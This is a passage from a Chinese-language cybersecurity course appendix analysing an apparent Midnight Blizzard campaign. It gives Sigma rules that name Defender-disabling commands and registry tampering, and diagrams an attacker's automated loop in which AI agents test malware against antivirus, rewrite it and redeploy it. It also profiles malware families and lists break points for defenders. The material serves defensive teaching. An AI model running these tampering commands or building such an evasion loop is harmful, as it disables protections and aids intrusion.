- 'stop WinDefend'
- 'WdNisSvc start= disabled'
- 'Set-MpPreference -SignatureUpdateInterval 0'
- 'DisableRealtimeMonitoring $true'
condition: sc_or_ps
level: high
(b) Sigma — 竄改更新/防護登錄政策（含「寫入已被忽略的 DisableAntiSpyware」這個高信號動作）
title: Tamper with Windows Update / Defender Policy Keys
logsource: { product: windows, category: registry_set }
detection:
selection:
TargetObject|contains:
- '\WindowsUpdate\AU\NoAutoUpdate'
- '\Windows Defender\DisableAntiSpyware'
- '\Windows Defender\Signature Updates\'
- '\Real-Time Protection\DisableRealtimeMonitoring'
Details: 'DWORD (0x00000001)'
condition: selection
level: high
(c) Sigma — hosts 檔被寫入更新網域（切斷簽章管道）
title: Update Domain Blocked via hosts File
logsource: { product: windows, category: file_event }
detection:
file:
TargetFilename|endswith: '\drivers\etc\hosts'
condition: file
level: medium # 需搭配內容檢視：是否含 windowsupdate / definitionupdates 網域
(d) 主動式「更新管道健康度」監控（最重要，直接反制此手法）
單機（PowerShell，可排程回報 SIEM）：
$s = Get-MpComputerStatus
[pscustomobject]@{
Host = $env:COMPUTERNAME
SigAgeDays = $s.AntivirusSignatureAge # 告警：> 3
SigVersion = $s.AntivirusSignatureVersion
SigLastUpdated = $s.AntivirusSignatureLastUpdated
RTPEnabled = $s.RealTimeProtectionEnabled # 告警：False
TamperProtected = $s.IsTamperProtected # 告警：False
}
車隊層（Microsoft Defender for Endpoint / Advanced Hunting，概念）：以 DeviceTvmSecureConfigurationAssessment 或裝置健康遙測比對「簽章版本落後雲端基準的裝置」，把簽章陳舊 + 更新服務停用 + Tamper Protection 關閉三者交集列為高優先事件。
(e) Defender Tamper Protection 事件：監控 Windows Defender 營運日誌的 Event ID 5001（即時防護被停用）、5007（設定被變更）、5010/5012（掃描/防護被關），以及 Tamper Protection 阻擋嘗試的事件——在本案情境下，這些「有人試圖動 Defender」的事件即為早期訊號。
縱深防禦（非偵測，但關鍵）：開啟 Tamper Protection（阻擋多數登錄/服務竄改）、把 Defender 訊號送到雲端 SIEM/MDE（即使本機被凍結，雲端仍看得到「這台不再回報/簽章不更新」）、對更新來源用 WSUS/Update for Business + 監控合規率。核心觀念：把「更新是否送達前線」當成一級可觀測指標，而不是預設它一定成功。
上文第 4.8「機制 A」以文字四步（監控→改寫→重建→迭代）描述閉環。本附錄用 Mermaid 把它畫成時序圖與狀態流程圖，並補「防守方在哪些節點可以打斷這個迴圈」。
sequenceDiagram
autonumber
participant M as "監控代理 monitor agent"
participant AV as "安全產品 / 自建沙箱（偵測 oracle）"
participant B as "建置代理 builder skill（winAgent build loop）"
participant R as "拋棄式散佈主機 disposable host"
participant V as "受害流量（fake update / ClickFix）"
Note over M,V: 人類僅在「skill 需精修」時介入；其餘由機器速度自轉
loop 迭代直到 undetected
M->>AV: 提交當前變種做偵測測試（Evasion testing / AV test suites，對映 Figure W8）
AV-->>M: 回報：被標記 / 未被標記
alt 被偵測
M->>B: 觸發改寫（調 skill 的規避邏輯：混淆、換 loader、改 COM/CLSID、換簽章）
B->>B: 重新編譯 / 重建（功能等價、簽章不同）
B-->>M: 交付新變種
else 未被偵測
M->>R: 上架新變種到拋棄式主機
R->>V: 供受害流量下載並落地
end
end
flowchart TD
A["部署惡意程式到受害端"] --> B{"監控代理：被安全產品偵測到？"}
B -- 否 --> C["維持潛伏 / 持續收集資料"]
C --> B
B -- 是 --> D["自動辨識被偵測的 artifact / 特徵"]
D --> E["改寫：混淆、換 loader、改 COM/CLSID、換簽章雜湊"]
E --> F["重建：winAgent build loop 重新編譯"]
F --> G["回歸測試：對 AV 測試套件自檢"]
G --> H{"仍被偵測？"}
H -- 是 --> E
H -- 否 --> I["上架拋棄式主機 → 再部署"]
I --> B
K1["斷點1：不給偵測回饋<br/>（不公布可被機器化查詢的偵測理由 / oracle）"] -. 反制 .-> B
K2["斷點2：行為/能力偵測<br/>（跨重編譯仍成立，不隨雜湊變）"] -. 反制 .-> D
K3["斷點3：保護更新管道<br/>（凍結更新偵測，讓簽章送得到）"] -. 反制 .-> I
K4["斷點4：身分層 & 基礎設施<br/>（device code 封鎖、C2 sinkhole、拋棄式主機下架）"] -. 反制 .-> A
style B fill:#fde,stroke:#c33
style H fill:#fde,stroke:#c33
style I fill:#dfe,stroke:#3a3
style K1 fill:#eef,stroke:#33c
style K2 fill:#eef,stroke:#33c
style K3 fill:#eef,stroke:#33c
style K4 fill:#eef,stroke:#33c
.tbres、凍結 Defender、假更新命名 + version.dll 側載、companion device 連結）。以行為家族/能力偵測（對映第 5、7.5 節），讓「重編譯」白費工。補上文第 12 節第 6 點「WebSearch 額度已用罄」所缺的三項：CaptiveCrunch 完整技術要點、PowerChrome/CloudSyncSvc/WUEngine 第三方對應現況、APT29/Midnight Blizzard 既有 TTP 對照。方法論紅線不變：以 PDF 原文為準，第三方僅作交叉佐證，未連線任何 IOC。
| 面向 | 技術細節（第三方獨立揭露） |
|---|---|
| 歸因/時間 | Microsoft 歸 Storm-2945（Midnight Blizzard 子群集，美英歸因 SVR）；活動至少自 2026-05 起 |
| DNS 劫持機制 | 受害飯店的 captive portal gateway 同時是 DNS resolver；攻擊者取得管理權後偽造 DNS 回應導流，其餘網域正常轉發以維持隱蔽 |
| 投放需使用者執行 | gateway 只負責導向，不靜默感染；落地需 ClickFix 誘使使用者自行執行攻擊者提供的指令 |
| CornFlake（＝CloudSyncSvc） | Go RAT，落 %APPDATA%\svchost32\svchost32.exe，服務顯示名 "Cloud Sync Service"；閒置截圖、剪貼簿+視窗標題側錄、瀏覽器 cookie/密碼（含 Chrome ABE）竊取、可移除媒體掃描、遠端 shell；Run keys + 排程 + watchdog 復原持久化 |
| ChocoShell（＝CHERRYPIE） | 記憶體型 PowerShell 竊取器；竊 M365/AAD access+refresh token 與 WAM .tbres token 供工作階段重放；AMSI 繞過、UAC 繞過、鎖 Defender 簽章更新 |
| FruitStone | web C2 面板，單頁 HTML/JS、所有功能無驗證 → 面板本身暴露於公網，可被外部指紋 |
| device code | 自 2026-07-16 起，誘餌頁把使用者導向 Microsoft device code 認證流程，於輸碼當下取得 MFA 已滿足的存取 |
| Microsoft 防禦建議 | ①Conditional Access 封鎖非必要 device code flow；②出差裝置用全通道 VPN，讓 DNS 在連上場館 gateway 前先走公司 resolver |
| 多廠佐證 | ReliaQuest（2026-07-23 最先揭露）、Microsoft（2026-07-31）、Zscaler（2026-08-11，多為轉述）、Google GTIG、Lumen Black Lotus Labs 均有記載 |
（以上與上文第 9.1 一致並補足了 CornFlake 落地路徑、watchdog、ChocoShell 竊 .tbres、FruitStone 無驗證、device code 起始日期等更細的協定/實作點。）
| 家族名 | 第三方對應 | 補搜結論 |
|---|---|---|
| CloudSyncSvc | Microsoft CornFlake（服務名 "Cloud Sync Service"） | 已對齊（強）。細節見 E.1 |
| PowerChrome | 無 | 補搜仍無獨立技術分析；各家報導（The Hacker News、Unite.AI 等）僅照抄 Anthropic 的家族名清單，未見任何一手逆向。維持「單一來源」判定 |
| WUEngine | 無 | 同上，僅見於 Anthropic IOC/清單；第三方無對應樣本分析。維持「單一來源」判定 |
| MiniPlasma | 公開 LPE PoC 同名 | 關聯未證實，見第 9.4、第 12 節與附錄 B.6 |
教學結論：即便動用新配額，PowerChrome 與 WUEngine 至今仍是 Anthropic 單一來源命名——這本身是重要的情報素材：說明「AI 供應商能看到攻擊者在建構的工具，但這些工具未必進入傳統端點/網路廠商的樣本庫」，正對映第 2.3、8.2 的可見度邊界論。
把本案放進 APT29（Cozy Bear / SVR，MITRE G0016）二十年 tradecraft 的脈絡，可見主題不變、手段隨技術演化：
| APT29 既有 TTP（歷史） | 代表事件 / 工具 | GTG-20006 的對應與演化 |
|---|---|---|
| 供應鏈 build 過程植入 | SolarWinds SUNBURST（2020），TEARDROP、GoldMax/GoldFinder/Sibot | 本案不植供應鏈，改為竊供應鏈情報（無人機 SDK/BOM/供應商依賴/未發表產品逆向）——同「戰略供應鏈」母題，手段從「植入」轉「竊密 + AI 加值」 |
| AD FS token 簽章竊取 / Golden SAML | FoggyWeb、MagicWeb | 本案改走雲原生身分濫用：device code → PRT → 攻擊者裝置註冊（附錄 A.2），達到類似「偽造合法登入」效果，但不需碰 on-prem AD FS |
| 惡意 M365 OAuth 應用 / 雲信箱長期潛伏 | 「讀信數月、悄然離開」 | 本案 Embassy Kit：device code 大量取 token、bulk mailbox export、自動 token refresh 排程（附錄 A.2.3）——把「長期潛伏」自動化 |
| device code phishing | Storm-2372（2024–25，Auth Broker client id 取 PRT） | 本案把該手法框架化（Embassy Kit）並以 AI 自動生成高度個人化誘餌；OAuth device code 釣魚在 2026 出現數十倍增長（Cloud Security Alliance 研究）為此背景 |
| 外交/智庫 spear-phishing | WINELOADER、GRAPELOADER、ROOTSAW | 本案 chathamhouse[.]eu、ukrinform-share[.]net、chamber-ua[.]org 等仿冒誘餌，主題一致（外交、智庫、烏克蘭機構） |
| 研究/IP 竊取 | WellMess / WellMail（2020 疫苗研究） | 本案國防與無人機 IP 竊取——同「竊取戰略技術情報」母題 |
| regionally appropriate proxy 隱身 | 歷來慣用住宅/在地代理 | 本案 eclipse proxies、Storm-2372 亦用「地理相稱代理」隱藏可疑登入——一脈相承 |
| 長期、隱蔽、以情報為目的（非破壞） | APT29 一貫風格 | 本案 GHOSTBLADE 完成外洩即自清退出、最小化留存，符合 APT29「潛伏取情、不留痕」傳統 |
教學價值：這張表讓學員看見「同一行為者的 DNA 不在工具，而在目標選擇與作業哲學」。工具會隨技術（AI、雲身分）演化，但 SVR 的情報需求（外交、國防、供應鏈、烏克蘭）與「隱蔽長潛」風格穩定——這正是行為歸因（第 2.1、2.2 節）比 IOC 歸因耐用的原因，也呼應第 9.4「靠雜湊與 TTP 拼圖、而非代號」。
依第二階段規則，最後確認本案頁段每一張視覺素材都有完整解說（圖片類型、圖上文字、資料流、核心訊息、課堂用法）：
| 頁 | 視覺素材 | 上文解說位置 | 狀態 | 本 pass 補強 |
|---|---|---|---|---|
| p.7 | GTG-20006｜Midnight Blizzard 行動儀表板（四縱欄 A/B/C/D + 頁首頁尾） | 第 6.1 節（逐欄逐格判讀 W1–W8、inferred 命中比、Operations map、Tasks 時間戳、頁尾統計條） | 完整 | 附錄 A.2.3 補「W3/W5 ＝ Embassy Kit 後端架構」的技術對映；附錄 D 補「W8 Evasion testing ＝ 閉環的偵測測試節點」 |
| p.10 | 惡意程式清單頁（Windows/Android/iOS 三清單 + IOC 框上半） | 第 6.2 節 | 完整 | 附錄 B 對七個家族逐一補功能/持久化/C2 + 偵測規則 |
| p.11 | IOC 續頁（網域/IP/email/檔名/2×SHA-256，下半轉入 GTG-50014） | 第 6.3 節 + 第 7 節完整抄錄 | 完整 | 附錄 B.1/B.2 補雜湊對應的家族技術（CornFlake/ChocoShell） |
| p.40 | Figure 19「Skill breakdown」三欄表（8 列 persona/ATT&CK/flow） | 第 6.4 節 | 完整 | 附錄 A/B/C 多處回指技能表（winAgent build loop、shadow_c2、iOS persona 等） |
結論：本案頁段（p.5–11）無圖表遺漏；p.7 儀表板與 p.10–11 惡意程式/IOC 表在第 6 節已逐一完整判讀，本技術深化 pass 在附錄 A–D 補上這些圖表元素背後的協定級/命令級技術機制，形成「圖上看到什麼（第 6 節）↔ 技術上怎麼運作與怎麼偵測（附錄 A–D）」的雙層對照。
備註：p.7 儀表板為 Anthropic 製作之風格化戰役回顧視覺化，非真實工具截圖；其數字（148 agents、24/27、55 capabilities、130 days）屬單一來源內部彙整（見第 12 節第 8 點），引用時務必標明。
（教材完）